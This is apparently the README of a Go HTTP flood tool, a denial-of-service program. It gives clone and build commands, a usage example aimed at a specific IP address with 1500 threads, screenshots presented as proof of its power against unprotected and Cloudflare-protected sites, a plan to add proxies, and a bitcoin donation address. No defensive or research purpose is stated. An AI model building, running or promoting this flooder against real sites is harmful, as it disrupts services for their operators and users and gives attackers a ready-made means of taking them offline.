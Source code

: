 # HTTP-Flood
Just simple httpflood
TODO:
Remove shity-code 
Add proxy

## Install
```sh
git clone https://github.com/LSD00/HTTP-Flood
cd HTTP-Flood
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
## Donate 
btc: 3JzWqmqH6YwXVVoBWsTuSgJg3qQXNHcgPp
